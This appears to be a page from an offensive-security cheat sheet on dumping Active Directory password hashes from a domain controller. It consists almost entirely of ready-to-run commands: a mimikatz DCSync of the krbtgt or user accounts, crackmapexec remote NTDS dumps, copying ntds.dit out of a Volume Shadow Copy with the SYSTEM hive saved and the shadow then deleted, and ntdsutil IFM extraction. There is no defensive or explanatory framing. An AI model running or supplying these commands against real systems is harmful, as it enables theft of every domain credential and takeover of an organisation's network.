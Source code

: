 ### DCSync (drsuapi)

```
mimikatz
lsadump::dcsync /domain:<DOMAIN_FQDN> /dc:<DC_FQDN> /user:<krbtgt | USERNAME>

crackmapexec <DC_HOSTNAME | DC_IP> -d "<DOMAIN>" -u '<USERNAME>' -p '<PASSWORD>' --ntds drsuapi
```

### Volume Shadow Copy

###### Local code execution

*vssadmin*

```
vssadmin create shadow /for=C:
# Shadow Copy ID: <GUID>
# Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\NTDS\ntds.dit <PATH>\ntds.dit
reg save HKLM\SYSTEM <PATH>\SYSTEM

vssadmin delete shadows /shadow=<GUID>
```

*ntdsutil*

`ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q`

```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```

###### Over the network

```
crackmapexec <DC_HOSTNAME | DC_IP> -d "<DOMAIN>" -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
```

